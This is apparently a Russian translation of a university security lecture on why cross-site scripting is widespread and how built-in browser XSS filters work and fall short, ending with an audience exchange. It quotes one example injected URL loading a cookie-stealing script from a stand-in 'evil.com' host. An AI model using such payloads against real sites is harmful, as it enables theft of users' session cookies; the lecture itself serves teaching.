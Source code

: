 Итак, я показал вам две быстрые демонстрации «грязного» мира, в котором мы обитаем. Так почему же межсайтовый скриптинг настолько распространен? Почему эти проблемы так важны? Причина в том, что веб-сайты становятся все более и более динамичными, и они хотят размещать множественный пользовательский контент или включать контент из других доменов. Подумайте, например, о разделе комментариев к новостной статье, эти комментарии исходят от ненадежных людей — от пользователей. Так или иначе, эти сайты должны выяснить, каковы правила комбинации таких вещей.

Веб-сайты могут содержать пользовательские документы, например документы Google или Office 365. Все эти документы исходят от ненадежных людей, но каким — то образом они должны уживаться друг с другом и с большой инфраструктурой Google или Microsoft.

Какие же типы межсайтовых сценариев защиты мы можем использовать? Один тип такой защиты представляет собой фильтры межсайтового скриптинга в самом браузере. Эти фильтры будут пытаться обнаружить возможные атаки с использованием межсайтовых сценариев. И мы увидели один из таких фильтров в действии – это был третий пример сценария, который мы рассмотрели.  
Предположим, у вас есть URL-адрес [foo.com/?q=](http://foo.com/?q=)&lt;script src= “evil.com/cookie stealer.js”&gt;. То есть этот адрес запускает сценарий, который перенаправляет пользователя на вредоносный сайт и крадёт у него кукиз.

![](../../_resources/0f29d1d33c9c4180b1b563016828632c.jpeg)

Так вот, браузер откажется его выполнять и этот приём злоумышленника не сработает. Причина проста – браузер просто проверил, нет ли встроенного тега `<script>` в этом адресе URL и обнаружив его, запретил переход по данной ссылке. Таким образом, это очень простая эвристика для выяснения, не происходит ли чего-то вредоносного, потому что ни один нормальный разработчик не станет помещать в адрес такие вещи. Вы можете настроить параметры конфигурации браузера на включение и выключение подобных вещей. Иногда это полезно для тестирования, если вы просто хотите быстро и без особой проверки ввести некоторые данные JavaScript. Но обычно такая проверка в браузере включена по умолчанию.

Например, Chrome и IE имеют встроенный фильтр, который смотрит на значение URL в адресной строке и ищет подобные вещи. И если они там присутствуют, то браузер, возможно, попытается их полностью удалить или сделать источник внутри <> пустым. Существуют множество способов эвристического анализа, на основе которых браузеры должны определять такие вещи. И если вы посмотрите на сайт OWASP, то там собраны примеры использования такой эвристики для обнаружения межсайтовых сценариев и примеры того, как можно обойти этот фильтр.

Вы знаете, это было очень смешно, потому что сначала в качестве примера для нашей лекции я сделал что-то подобное этому, и оно не сработало. Тогда я заглянул в шпаргалку OWASP и нашёл там четвёртый вариант, который сработал, это был пример со сломанным разбором адреса изображения img.

Итак, основная проблема, не позволяющая просто полагаться на встроенные фильтры браузеров, заключается в том, что есть много разных способов заставить CSS и HTML-парсеры разобрать какое-то содержимое неверным способом. Так что встроенные решения не идеальны, они не перекрывают все уязвимости.

**Аудитория:** но ведь проверять такие вещи не входит в обязанность браузера?

**Профессор:** я имею в виду случай, когда браузер находится на прокси-сервере, и прокси выполняет нечто, показанное в этом примере. То есть встроенные фильтры имеют смысл, потому что внутри браузера может находиться множество парсеров, и эти фильтры применяются для защиты слоёв обработчиков внутри браузера.
